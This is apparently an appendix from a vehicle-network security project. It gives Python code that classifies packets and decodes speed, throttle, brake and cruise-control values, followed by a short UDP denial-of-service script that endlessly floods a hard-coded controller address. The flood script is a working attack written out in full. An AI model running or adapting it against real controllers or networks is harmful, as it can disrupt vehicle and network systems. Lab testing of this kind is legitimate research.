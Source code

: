 \begin{verbatim}
# Returns an iid based on a specified packet type
def retrieve_iid(packet_type):
    if packet_type == "broadcast":
        return __BROADCAST_IID
    elif packet_type == "dhcp":
        return __DHCP_IID
    elif packet_type == "ssdp":
        return __SSDP_IID
    elif packet_type == "mdns":
        return __MDNS_IID
    else:
        return __MALICIOUSPACKET_IID

# Extracts the payload from the hexdump depending on the status type
def extract_payload(byte_field, status_type):
    if status_type == __VEHICLESPEEDSTATUS_STATUS_ID:

        payload = extract_bytes(
            byte_field,
            len(byte_field) - __VEHICLESPEEDSTATUS_PAYLOAD_LENGTH,
            len(byte_field),
        )

        speed_hex = payload[0:__VEHICLESPEEDSTATUS_SPEED_END_BYTE]
        speed_decimal = int(speed_hex, 16)
        return speed_decimal

    payload = extract_bytes(
        byte_field,
        len(byte_field) - __DEFAULT_PAYLOAD_LENGTH,
        len(byte_field),
    )

    if status_type == __THROTTLESTATUS_STATUS_ID:
        throttle_demand_hex = payload[0:__THROTTLEPEDALSTATUS_DEMAND_END_BYTE]
        throttle_demand_decimal = int(throttle_demand_hex, 16)
        return throttle_demand_decimal

    if status_type == __BRAKESTATUS_STATUS_ID:
        brake_pressed_hex = payload[0:__BRAKESTATUS_END_BYTE]
        brake_pressed_decimal = int(brake_pressed_hex, 16)
        return brake_pressed_decimal

    if status_type == __CRUISECONTROL_STATUS_ID:
        cruise_control_hex = payload[0:__THROTTLEPEDALSTATUS_DEMAND_END_BYTE]
        cruise_control_decimal = int(cruise_control_hex, 16)
        return cruise_control_decimal
\end{verbatim}
\newpage
\section{DoS Attack Script (Add additional comments to this!)}
\begin{verbatim}
import socket
import time

# Input controller IP address
ip_address = "172.16.0.100"
# Input controller port
udp_port = 28191
message = "This is a DoS attack"

clientSocket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
clientSocket.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)

while True:
    clientSocket.sendto(message.encode("utf-8"), (ip_address, udp_port))
    time.sleep(0.5)
\end{verbatim}
\newpage
